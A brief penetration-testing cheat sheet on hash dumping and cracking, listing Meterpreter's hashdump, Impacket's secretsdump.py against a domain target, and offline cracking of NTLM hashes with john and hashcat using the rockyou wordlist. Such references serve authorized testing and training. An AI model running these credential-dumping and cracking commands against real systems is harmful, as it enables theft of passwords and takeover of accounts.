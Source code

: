 # Hash Dumping & Cracking

## Meterpreter

hashdump
Impacket

secretsdump.py <DOMAIN>/<USER>@<TARGET>
Offline Cracking

john --wordlist=rockyou.txt hashes.txt
hashcat -m 1000 hashes.txt rockyou.txt

